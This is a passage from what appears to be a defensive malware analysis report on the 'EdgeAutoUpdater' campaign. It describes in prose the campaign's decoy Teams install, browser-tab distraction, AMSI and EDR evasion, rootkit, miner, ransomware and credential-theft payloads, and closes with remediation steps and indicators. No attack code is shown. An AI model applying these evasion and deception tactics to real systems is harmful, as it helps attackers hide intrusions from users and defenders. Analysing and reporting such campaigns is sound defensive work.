In a sophisticated evasion attempt, the script downloads the **legitimate Microsoft Teams installer** from the official Microsoft CDN (statics.teams.cdn.office.net) and installs it via `Add-AppxPackage`.
- **Social Engineering:** If the computer slows down (due to the miner) or disk activity spikes, the user might investigate. Seeing "Microsoft Teams" installing provides a plausible, non-malicious explanation for the system load ("Oh, it's just an update"), delaying the user's reaction time.

**E. Distraction (Chaos Tactic)**  
Finally, the script forces the default browser to open specific URLs (a Reddit thread about Indiana Jones, Vimeo videos).
- **Goal:** This creates confusion. The user is distracted by random browser tabs popping up, potentially diverting their attention away from the background encryption or data theft processes.
## 2.12 Limitation of Scope & Further Payload Assessment
Analysis of the secondary payloads referenced in the Orchestrator script (worm.ps1, powerstealer.ps1, pivot.ps1, etc.) was halted at this stage.

**Reasoning for Cessation:**
1. **Consistent Delivery Mechanism:** The decryption routine for all downstream payloads follows the identical pattern observed in Stages 1–6 (Base64 Encoding -> XOR Decryption with rotating keys -> Invoke-Expression). No new obfuscation techniques.
2. **Confirmed Capabilities:** The variable names and the contexts identified in the Orchestrator script provide sufficient confirmation of the malware's capabilities without requiring reverse engineering of every binary:
    
    - **$psexecpayload / worm.ps1:** Confirmed Lateral Movement capabilities (SMB/RPC Worm).
    - **$filelessransomware:** Confirmed Encryption/Extortion capabilities.
    - **$powerstealer / $rubeuspivot:** Confirmed Credential Theft (likely Metasploit/Mimikatz derivatives).

Given the confirmed presence of **Cobalt Strike**, **XMRig**, and **rootkit** activity, conducting deeper analysis of the commodity payloads would provide little additional insight for the overall risk assessment.
# 3. Conclusion
The "EdgeAutoUpdater" campaign represents a highly mature and dangerous threat actor. The malware is characterized by its modularity and its aggressive approach to neutralizing host defenses.

**Technical Assessment**  
The attacker demonstrates advanced knowledge of Windows internals. The use of **Reflective DLL Injection** combined with **Custom AMSI Hooking** renders traditional signature-based antivirus ineffective. Furthermore, the use of **NTAPI resolution** allows the malware to bypass many modern EDR (Endpoint Detection and Response) hooks.

The campaign is notable for its versatility. It does not rely on a single payload but acts as a "Swiss Army Knife" loader. By breaking the attack into small, obfuscated PowerShell scripts hosted on legitimate infrastructure (Cloudflare Pages), the attacker creates a resilient infrastructure that is difficult to block via simple reputation filtering.

**Final Verdict**  
The sample is a **Critical Threat**. It successfully effectively blinds system defenses and provides the attacker with Administrator-level access, hidden by a Rootkit, with tools pre-staged for immediate ransomware deployment and lateral movement.

**Recommendations**

1. **Isolate & Re-Image:** Due to the deployment of the **r77 Rootkit** and **Kernel Exploits**, simple cleanup is unsafe. The machine should be disconnected from the network and fully re-imaged.
2. **Credential Reset:** Assume all credentials used on this machine (including Domain Admin tokens, if applicable) have been harvested by $rubeuspivot or $powerstealer. Reset passwords immediately.
3. **Network Block:** Blacklist `*.thisisnotyourland.pages.dev` at the perimeter firewall.
4. **Threat Hunting:** Scan the network for the specific IOCs (File: Adobe Acrobat.exe in Startup, Scheduled Task: `EdgeAutoUpdaterTask`) to identify lateral movement.